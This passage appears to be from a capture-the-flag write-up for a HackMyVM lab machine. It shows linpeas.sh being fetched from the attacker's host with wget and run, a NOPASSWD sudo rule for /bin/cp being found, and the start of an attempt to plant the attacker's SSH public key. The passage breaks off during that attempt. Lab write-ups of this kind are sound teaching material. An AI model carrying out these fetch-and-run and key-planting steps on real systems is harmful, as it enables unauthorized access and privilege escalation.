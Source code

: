 
## Shell as melisa

Download and  Run linpeas.sh 

```bash
$ cd /tmp
cd /tmp
$ wget http://192.168.56.3:1235/linpeas.sh
wget http://192.168.56.3:1235/linpeas.sh
--2021-12-28 05:03:33--  http://192.168.56.3:1235/linpeas.sh
Connecting to 192.168.56.3:1235... connected.
HTTP request sent, awaiting response... 200 OK
Length: 330173 (322K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh          100%[===================>] 322.43K  --.-KB/s    in 0.003s  

2021-12-28 05:03:33 (123 MB/s) - ‘linpeas.sh’ saved [330173/330173]

$ bash linpeas.sh                                                                                                                                                         
bash linpeas.sh   

….
[+] Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d                                                                                                                  
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                                                                             
Matching Defaults entries for www-data on five:                                                                                                                           
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin                                                                
                                                                                                                                                                          
User www-data may run the following commands on five:                                                                                                                     
    (melisa) NOPASSWD: /bin/cp  

```

We can see that `(melisa) NOPASSWD: /bin/cp ` we can run the copy command as melisa. This means we can copy files that once own by www-data and it will become melisa owned file. 

One thing we can do is to copy over id_rsa/id_rsa.pub keys.

### Attempt 1

Use CP to copy local machine id_rsa.pub to replace melisa id_rsa.pub
```bash
Local machine
┌──(root💀kali)-[/opt/hackmyv/five]
└─# cp /root/.ssh/id_rsa.pub .
                                                                                                                                                                          
┌──(root💀kali)-[/opt/hackmyv/five]
└─# python -m SimpleHTTPServer 1235


Victim machine
$ cd /tmp
cd /tmp
$ wget http://192.168.56.3:1235/id_rsa.pub
wget http://192.168.56.3:1235/id_rsa.pub
--2021-12-28 05:12:24--  http://192.168.56.3:1235/id_rsa.pub
Connecting to 192.168.56.3:1235... connected.
HTTP request sent, awaiting response... 200 OK
```